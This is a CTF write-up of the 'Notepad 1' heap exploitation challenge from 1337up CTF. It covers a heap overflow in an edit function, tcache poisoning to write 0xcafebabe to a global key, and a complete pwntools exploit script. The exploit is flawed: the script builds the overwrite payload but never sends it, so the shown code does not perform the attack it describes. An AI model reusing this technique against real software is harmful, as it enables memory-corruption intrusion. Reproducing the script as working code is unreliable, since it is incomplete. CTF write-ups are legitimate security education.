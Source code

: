 I played in 1337up CTF last weekend but no one wants to hear about my day so here are my writeups for the few pwn challenges I solved.

# Notepad 1
#### baby heap pwn
## Analysis
We are presented with a few files to host the challenge with a docker instance locally but I'm lazy and there's not much point anyways so I don't use it.

The only really important file is the challenge binary itself, as even though the libc and linker were provided I didn't end up using them

Opening it up in Ghidra, we can see it looks like a pretty simple CRUD heap challenge with a win function.
After looking around a bit, I found the main vulnerability. When creating a note, you are only allowed to write to the allocated chunk the size of the chunk, but when updating it, you are allowed to write up to a set amount of 0x100 bytes.

`createNote`:
```c
  puts("How large you want the note to be?");
  printf("> ");
  __isoc99_scanf(&DAT_001014c3,&size);
  uVar1 = index;
  pvVar2 = malloc(size);
  *(void **)(notepad + (ulong)uVar1 * 8) = pvVar2;
  puts("Add your note:");
  printf("> ");
  local_28 = *(long *)(notepad + (ulong)index * 8);
  sVar3 = read(0,*(void **)(notepad + (ulong)index * 8),size);
```
`editNote`:
```c
  puts("Your changes:");
  printf("> ");
  read(0,*(void **)(notepad + (ulong)index * 8),0x100);
```
This gives us an easy write primitive in subsequent heap chunks, meaning we can do things like overwrite metadata in the following heap chunks. 

# The plan
Armed with a write primitive, we can start planning our exploit. The binary very generously gives us a PIE leak at the start of the program, meaning there is essentially no PIE, so we just need to find a way to call our win function. 

Speaking of, here it is in Ghidra (or at least the important part):
```c
void secretNote(void)

{
  int __fd;
  size_t __n;
  long in_FS_OFFSET;
  undefined local_418 [1032];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  if (key != -0x35014542) {
    puts("You don\'t have access!");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
 /* Print flag code */
}
```

That number `-0x35014542` is actually `0xcafebabe` but because its a signed number Ghidra thinks its a negative number.
We can see that to get the flag we must first write 0xcafebabe to the global variable `key` then call secretNote (which there is an option for in the menu).

---
So how can we write to `key`? Recall that we have an overflow in the update function that allows us to overwrite the subsequent chunks of an arbitrary chunk.

This means that we can overwrite the FD and BK pointers of a freed chunk to point to `key`, which will cause the program to think that `key` is a freed chunk in the tcache,  and will return a pointer to `key` after allocating twice.

So, we can allocate two chunks and write 0xcafebabe to the second one, which will be at `key`, then just call the win function.

Before overwrite:
```
0x00: 0x0000000000000000 0x0000000000000020 (chunk1)
0x10: 0x6161616161616161 0x6161616161616161
0x20: 0x6161616161616161 0x0000000000000020 (chunk2)
0x30: 0x(NULL_FD_PTR)
```
After overwrite:
```
0x00: 0x0000000000000000 0x0000000000000020 (chunk1)
0x10: 0x6161616161616161 0x6161616161616161
0x20: 0x6161616161616161 0x0000000000000020 (chunk2)
0x30: 0x(OUR_FD_PTR)
```

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./notepad_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.REMOTE:
        p = remote("notepad.ctf.intigriti.io", 1341)
    else:
        p = process([exe.path])
        if args.DB:
            gdb.attach(p)

    return p


def create(p, i, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(i).encode())
    p.sendlineafter(b'> ', str(size).encode())
    p.sendlineafter(b'> ', data)

def read(p, i):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(i).encode())
    return p.recvuntil(b'\n\n\nChoose', drop=True)

def update(p, i, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'> ', str(i).encode())
    p.sendlineafter(b'> ', data)

def delete(p, i):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'> ', str(i).encode())

def main():
    p = conn()

    # good luck pwning :)
    p.recvuntil(b'gift: ')
    exe_leak = int(p.recvline().strip(), 16)
    exe.address = exe_leak - exe.sym['main']
    print(hex(exe.address))

    create(p, 0, 16, b'deadbeef')  # chunk1
    create(p, 1, 16, b'deadc0de')  # chunk2
    delete(p, 1)                   # Free chunk2 to put it in tcache

    payload = b'a' * 24            # Pad until FD ptr
    payload += flat(0x21, exe.sym['key']) # Overwrite FD

    create(p, 2, 16, b'cafef00d')  # Alloc once to use actual tcache chunk
    create(p, 3, 16, flat(0xcafebabe))  # Alloc once more to use our fake chunk

    p.sendlineafter(b'> ', b'5')

    p.interactive()

if __name__ == "__main__":
    main()
```

This was my first ever pwn writeup and second writeup ever so please give feedback thanks.
